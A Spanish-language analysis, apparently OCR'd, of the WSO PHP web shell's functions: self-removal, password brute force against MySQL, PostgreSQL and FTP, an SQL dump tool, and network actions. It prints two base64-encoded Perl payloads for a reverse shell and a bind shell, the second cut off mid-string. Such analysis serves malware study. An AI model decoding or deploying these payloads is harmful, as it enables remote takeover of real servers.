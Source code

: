 ## **`actionSelfRemove`**
1. Ejecuta la función **`wsoHeader`**
1. Solicita una confirmación y ejecuta la función *unlink* sobre **_FILE_** para eliminar el archivo
1. Ejecuta la función **`wsoFooter`**

## **`actionBruteForce`**
1. Ejecuta la función **`wsoHeader`**
1. Ejecuta funciones de intentos de login Fuerza bruta de los siguientes tipos:
    1. etc/passwd : reverse (login -> nigol)
    1. dictionary
    Y lo ejecuta sobre los siguientes servicios:
    1. Mysql
    1. Postgresql
    1. FTP
1. Ejecuta la función **`wsoFooter`**

## **`actionSQL`**
1. Define una clase llamada DbClass que contiene las siguientes funciones sobre base de datos:
    1. connect
    1. select db
    1. query
    1. fetch 
    1. list db
    1. list tables
    1. throw error
    1. set charset
    1. laod file
    1. dump

1. Ejecuta la función **`wsoHeader`**
1. Muestra un editor que puede llamar a las funciones anteriormente definidas
1. Ejecuta la función **`wsoFooter`**

## **`actionNetwork`**
1. define 2 variables *back_connect_p* y *bind_port_p* con los siguientes caracteres:
    > **`$back_connect_p`**= "IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGlhZGRyPWluZXRfYXRvbigkQVJHVlswXSkgfHwgZ
GllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRBUkdWWzFdLCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKTsN
CiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3R
vKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGV
uKFNURElOLCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNC
nN5c3RlbSgnL2Jpbi9zaCAtaScpOw0KY2xvc2UoU1RESU4pOw0KY2xvc2UoU1RET1VUKTsNCmNsb3NlKFNUREVSUik7";
 
    > **`$bind_port_p`** = "IyEvdXNyL2Jpbi9wZXJsDQokU0hFTEw9Ii9iaW4vc2ggLWkiOw0KaWYgKEBBUkdWIDwgMSkgeyBleGl0KDE
pOyB9DQp1c2UgU29ja2V0Ow0Kc29ja2V0KFMsJlBGX0lORVQsJlNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCd0Y3AnKSkgfHwgZ
GllICJDYW50IGNyZWF0ZSBzb2NrZXRcbiI7DQpzZXRzb2Nrb3B0KFMsU09MX1NPQ0tFVCxTT19SRVVTRUFERFIsMSk7DQpiaW5kKFM
sc29ja2FkZHJfaW4oJEFSR1ZbMF0sSU5BRERSX0FOWSkpIHx8IGRpZSAiQ2FudCBvcGVuIHBvcnRcbiI7DQpsaXN0ZW4oUywzKSB8fCBk
aWUgIkNhbnQgbGlzdGVuIHBvcnRcbiI7DQp3aGlsZSgxKSB7DQoJYWNjZXB0KENPTk4sUyk7DQoJaWYoISgkcGlkPWZvcmspKSB7DQ
oJCWRpZSAiQ2Fubm90IGZvcmsiIGlmICghZGVmaW5lZCAkcGlkKTsNCgkJb3BlbiBTVERJTiwiPCZDT05OIjsNCgkJb3BlbiBTVERPVVQsIj
4mQ09OTiI7DQoJCW9wZW4gU1RERVJSLCI+JkNPTk4iOw0KCQlleGVjICRTSEVMTCB8fCBkaWUgcHJpbnQgQ09OTiAiQ2FudCBleGV